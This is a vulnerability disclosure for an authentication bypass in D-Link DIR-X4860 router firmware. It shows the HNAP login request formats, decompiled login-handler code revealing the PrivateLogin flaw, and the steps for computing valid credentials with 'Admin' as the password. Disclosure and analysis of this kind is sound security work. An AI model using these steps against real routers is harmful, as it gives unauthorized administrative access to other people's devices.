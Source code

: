 ## D-Link DIR-X4860 Routers HNAP PrivateLogin Incorrect Implementation of Authentication Algorithm Authentication Bypass Vulnerability

### 1.Vulnerability description

The specific flaw exists within the handling of HNAP login requests. The issue results from the lack of proper implementation of the authentication algorithm. An attacker can leverage this vulnerability to escalate privileges and execute code in the context of the router.<br>
<br>
This vulnerability allows network-adjacent attackers to bypass authentication on affected installations of DIR-X4860 routers. Authentication is not required to exploit this vulnerability.<br>
The vulnerability exists in the latest firmware version ： DIRX4860A1_FWV1.04B03.bin<br>
<br>
Firmware download address : https://support.dlink.com/ProductInfo.aspx?m=DIR-X4860-US<br>

### 2.Vulnerability details

#### 2.1 HNAP protocol

Step 1: Send the login request and wait for the response.<br>
The requested packet format is as follows:<br>

```c
Headers:
"Content-Type": "text/xml; charset=utf-8"
"SOAPAction": "http://purenetworks.com/HNAP1/Login"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://purenetworks.com/HNAP1/">
      <Action>request</Action>
      <Username>Admin</Username>
      <LoginPassword/>
      <Captcha/>
    </Login>
  </soap:Body>
</soap:Envelope>
```

The response data are as follows:<br>

```c
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <LoginResponse xmlns="http://purenetworks.com/HNAP1/">
      <LoginResult>OK</LoginResult>
      <Challenge>........</Challenge>
      <Cookie>........</Cookie>
      <PublicKey>........</PublicKey>
    </LoginResponse>
  </soap:Body>
</soap:Envelope>
```

The response packet returns Challenge, Cookie, PublicKey.<br>
<br>
The Cookie is used as the cookie header for all subsequent http requests.<br>
<br>
Challenge and PublicKey are used to encrypt the password and generate HNAP_AUTH authentication in the http header.<br>
<br>
Step 2: Send the login login and wait for the response.<br>
The requested packet format is as follows:<br>

```xml
Headers:
"Content-Type": "text/xml; charset=utf-8"
"SOAPAction": "http://purenetworks.com/HNAP1/Login"
"HNAP_AUTH": "........"
"Cookie": "uid=........"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://purenetworks.com/HNAP1/">
      <Action>login</Action>
      <Username>Admin</Username>
      <LoginPassword>........</LoginPassword>
      <Captcha/>
    </Login>
  </soap:Body>
</soap:Envelope>
```

The key values are calculated in the following way:<br>

```
LoginPassword:
	PrivateKey = get_hmac_KEY_md5(PublicKey + password,Challenge)
	LoginPassword = get_hmac_KEY_md5(PrivateKey,Challenge)
uid : 
	uid = Cookie
HNAP_AUTH:
    SOAP_NAMESPACE2 = "http://purenetworks.com/HNAP1/"
    Action = "Login"
    SOAPAction = '"' + SOAP_NAMESPACE2 + Action + '"'
    Time = int(round(time.time() * 1000))
    Time = math.floor(Time) % 2000000000000
    HNAP_AUTH = get_hmac_KEY_md5(PrivateKey,Time + SOAPAction)
```

The response data are as follows:<br>

```
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <LoginResponse xmlns="http://purenetworks.com/HNAP1/">
      <LoginResult>success</LoginResult>
    </LoginResponse>
  </soap:Body>
</soap:Envelope>
```

If the value of LoginResult is success, the authentication succeeds.<br>
<br>
If LoginResult is failed, authentication fails.<br>

#### 2.2 Vulnerability analysis

The vulnerability is in the /bin/prog.cgi file.<br>
<br>
The vulnerability occurs in the function that handles the login request.<br>

```
int __fastcall sub_5394C(int a1, int a2, int a3, int a4)
{
  int v5; // r1
  char *v6; // r0
  const char *v7; // r5
  const char *v8; // r5
  int v10; // r0
  int v11; // r1
  int v12; // r2
  int v13; // r3

  sub_53074(a1, a2, a3, a4);
  if ( sub_51038(a1) )
  {
    v6 = GetHNAPParam(a1, "/Login/Action");
    v7 = v6;
    if ( v6 )
    {
      if ( !strncmp(v6, "request", 7u) )
      {
        handle_login_request(a1); // into here !!!
        return 1;
      }
      ******
}

int __fastcall handle_login_request(int a1)
{
  char *Username; // r11
  int v3; // r5
  int result; // r0
  const char *PrivateLogin; // [sp+Ch] [bp-84h]
  char s[64]; // [sp+10h] [bp-80h] BYREF
  char v7[64]; // [sp+50h] [bp-40h] BYREF
  char v8[64]; // [sp+90h] [bp+0h] BYREF
  char http_password[64]; // [sp+D0h] [bp+40h] BYREF
  char v10[128]; // [sp+110h] [bp+80h] BYREF

  memset(s, 0, sizeof(s));
  memset(v7, 0, sizeof(v7));
  memset(v8, 0, sizeof(v8));
  memset(http_password, 0, sizeof(http_password));
  memset(v10, 0, sizeof(v10));
  if ( sub_51FE4(a1) )
  {
    sub_5322C(a1, 5);
    result = 0;
  }
  else
  {
    GetHNAPParam(a1, "/Login/Action");
    Username = GetHNAPParam(a1, "/Login/Username");
    GetHNAPParam(a1, "/Login/LoginPassword");
    GetHNAPParam(a1, "/Login/Captcha");
    PrivateLogin = GetHNAPParam(a1, "/Login/PrivateLogin");
    sub_50F98(s, 20);
    sub_50F98(v7, 10);
    sub_50F98(v8, 20);
    if ( PrivateLogin && !strncmp(PrivateLogin, "Username", 8u) )
      strncpy(http_password, Username, 0x40u); // Authentication Bypass!!
    else
      get_http_password(http_password, 0x40u);
    sub_51284(s, http_password, v8, v10, 128);
    v3 = sub_51468(a1, v10, s, v7, v8);
    sub_51094(a1, v7);
    sub_5322C(a1, 0);
    result = v3;
  }
  return result;
}
```

The normal logic in the handle_login_request function is to get the http_password and then generate the PrivateKey from the http_password.<br>
<br>
However, when the PrivateLogin parameter is included in the request, and the value of the PrivateLogin parameter is "Username", then the PrivateKey is generated from the value of the Username parameter.<br>
<br>
The Username parameter has a known value of "Admin".<br>
<br>
This means that when you perform a login login request, you can use "Admin" as the password to calculate the relevant data without knowing the real password:<br>

```
LoginPassword:
	password = ”Admin"
	PrivateKey = get_hmac_KEY_md5(PublicKey + password,Challenge)
	LoginPassword = get_hmac_KEY_md5(PrivateKey,Challenge)
uid : 
	uid = Cookie
HNAP_AUTH:
    SOAP_NAMESPACE2 = "http://purenetworks.com/HNAP1/"
    Action = "Login"
    SOAPAction = '"' + SOAP_NAMESPACE2 + Action + '"'
    Time = int(round(time.time() * 1000))
    Time = math.floor(Time) % 2000000000000
    HNAP_AUTH = get_hmac_KEY_md5(PrivateKey,Time + SOAPAction)
```

This bypasses login authentication.<br>

### 3.Vulnerability exploitation

The effect of the current exploitation is login authentication bypass.